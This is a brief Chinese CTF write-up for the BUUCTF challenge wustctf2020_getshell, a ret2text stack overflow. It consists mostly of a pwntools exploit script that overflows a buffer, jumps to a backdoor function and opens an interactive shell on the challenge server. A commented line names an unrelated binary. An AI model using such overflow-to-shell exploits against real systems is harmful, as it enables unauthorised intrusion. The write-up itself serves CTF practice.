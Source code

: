 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#wustctf2020_getshell)

这是一道简单`ret2txt`，已经有后面函数了，直接溢出就行

checksec一下



# exp

```python
from pwn import *
context(os="linux",arch="i386",log_level="debug")
p=remote('node5.buuoj.cn',29594)
#p=process('./ez_pz_hackover_2016')
payload=flat(b'A'*(0x18+0x4),p32(0x804851B))
p.sendline(payload)
p.interactive()
```


